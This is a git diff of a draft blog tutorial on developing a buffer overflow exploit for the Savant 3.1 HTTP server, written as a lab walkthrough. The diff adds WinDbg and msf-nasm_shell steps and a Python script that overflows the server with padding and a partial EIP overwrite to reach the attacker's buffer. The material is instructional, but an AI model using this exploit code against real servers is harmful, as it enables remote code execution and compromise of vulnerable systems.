

Quartz sync: Dec 6, 2025, 10:42 AM

diff --git a/content/Other/Exploit Development/0005 Savant 3.1 Exploit Development.md b/content/Other/Exploit Development/0005 Savant 3.1 Exploit Development.md
@@ -1,9 +1,11 @@
 ---
-title: "Savant 3.1 - Egghunter Exploit Development"
+title: Savant 3.1 - Egghunter Exploit Development
 created: 2025-12-20
 modified: 2024-12-20
-description: "Savant 3.1 is a HTTP server application which is vulnerable for Buffer Overflow. In this article I'll go through developing an remote code execution exploit for it using egghunter technique and using tools such as WinDbg, Narly, Python3."
-tags: ["EXPDEV", "EGGHUNTER"]
+description: Savant 3.1 is a HTTP server application which is vulnerable for Buffer Overflow. In this article I'll go through developing an remote code execution exploit for it using egghunter technique and using tools such as WinDbg, Narly, Python3.
+tags:
+  - EXPDEV
+  - EGGHUNTER
 draft: true
 ---
 
@@ -53,7 +55,7 @@ if __name__ == "__main__":
     main()
 ```
 
-![[0005 Savant-3.1-Exploit-Development-02.png]]
+![[0005 Savant-3.1-Exploit-Development-03.png]]
 
 The crash occurred after sending 250 bytes of data which means we can control EIP register anywhere from 250 bytes to 260 bytes. All we need to do is modify our exploit.py script to send 250 bytes of padding data and then 10 bytes of B character.
 
@@ -136,7 +138,61 @@ if __name__ == "__main__":
 
 ![[0005 Savant-3.1-Exploit-Development-06.png]]
 
-Instead of performing a full EIP register control we can instead perform a partial EIP register control to use the instructions inside the `savant` library.
+Instead of completely taking control over the EIP register we can instead perform a partial EIP register control to use the addresses inside the `savant` library.
 
 ## Finding POP, RET32
 
+The Savant 3.1 application stores the buffer address inside the stack and it's possible to view it using the following commands in WinDbg after the application crashes.
+
+![[0005 Savant-3.1-Exploit-Development-07.png]]
+
+The `JMP ESP` instructions in this scenario will lead to access violation therefore we will need to instead perform a `POP, RET32` instructions to jump into the buffer that has our payloads. Using `msf-nasm_shell` we can obtain the hex code for `POP, RET32` and from there we can search for the instructions `POP EAX` and `RET` with WinDbg. 
+
+```shell title="exploit.py"
+kali@kali:~$ msf-nasm_shell 
+nasm > pop eax
+00000000  58                pop eax
+nasm > ret
+```
+
+![[0005 Savant-3.1-Exploit-Development-08.png]]
+
+You can use any of the addresses that comes up in WinDbg. I'll be using the address  `0x00418674` to perform the `POP, RET32` instructions and all that is left is assigning the address to the EIP register on our exploit.py script.
+
+```python title="exploit.py"
+#!/bin/python3
+import socket
+def main():
+    try: 
+        server = "192.168.221.148"
+        port = 80
+
+        # HTTP Header
+        httpMethod = b"GET /"
+        httpRequestEnd = b"\r\n\r\n"
+
+        # Malicious buffer
+        inputBuffer = b"A" * 253                # Padding
+        inputBuffer += b"\x74\x86\x41"          # Controlling EIP (0x00418674)
+
+        # Crafting payload
+        payload = httpMethod + inputBuffer + httpRequestEnd
+
+        # Sending payload
+        print("Sending {0} bytes of data".format(len(inputBuffer)))
+        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
+        s.connect((server, port))
+        s.send(payload)
+        s.close()
+        print("Done")
+
+    except socket.error:
+        print("Could not connect!")
+
+if __name__ == "__main__":
+    main()
+```
+
+![[0005 Savant-3.1-Exploit-Development-09.png]]
+
+I'm happy to inform that we are now successfully inside of the buffer which has our payload.
